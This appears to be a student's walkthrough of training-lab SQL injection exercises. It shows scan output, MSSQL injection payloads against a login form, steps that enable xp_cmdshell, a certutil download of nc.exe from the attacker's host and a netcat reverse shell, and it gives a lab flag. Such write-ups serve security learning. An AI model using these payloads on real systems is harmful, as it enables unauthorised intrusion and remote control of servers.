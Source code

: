 - Use Pentestmonkey's [**cmd_exec**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) for flag (NOTE: flag will be different from original answer as I manually did it on a fresh VM)
![](10.3.2.6_flag.png)


> Answer:  OS{7076206eced8864d3637266b1da6d96c}



7. **Capstone Exercise**: Enumerate the Module Exercise - VM #4 and exploit the SQLi vulnerability in order to get the flag.

- Enumerate & browse
```bash
nmap -Pn 192.168.226.50
	PORT    STATE SERVICE
	80/tcp  open  http
	135/tcp open  msrpc
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds

ferroxbuster -u http://192.168.226.50 -s 200
	200      GET      194l      500w     8586c http://192.168.226.50/about.aspx
	200      GET      198l      531w     8918c http://192.168.226.50/doctors.aspx
	200      GET      202l      522w     9030c http://192.168.226.50/protect.aspx
	200      GET      231l      791w    11767c http://192.168.226.50/news.aspx
	200      GET       93l      256w     4140c http://192.168.226.50/login.aspx    <-- Note

# Wappalyzer - ASP.NET 4.0.30319 on Windows Server ISS 10.0
```

- Navigate to **login.aspx** and enter form fields (all other sites are moot)
- Send to Burp Repeater & test for columns & vuln parameter
	![](10.3.2.7ex_orderBy.png)
		- UsernameTextBox is vuln w/ 2 columns

```sql
-- Test for vuln param
'; WAITFOR delay '0:0:10';-- 

'-- Find out dbs version to find possible vulns
-- Not working, not sure how to find possible vuln avenues - '; IF(CHARINDEX('15.0.',@@VERSION)>0) WAITFOR DELAY '0:0:15'--

'-- Copy Window's nc.exe to folder and create web server
cp /usr/share/windows-resources/binaries/nc.exe ~/exercises/web 
python -m http.server 80

''-- Configure xp_cmdshell to work
';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--

-- Download nc.exe to target maching & run
';EXEC xp_cmdshell "certutil -urlcache -f http://<kali_ip>/nc.exe c:/windows/temp/nc.exe";-- '
';EXEC xp_cmdshell "c:/windows/temp/nc.exe <kali_ip> 4444 -e cmd.exe";--
```
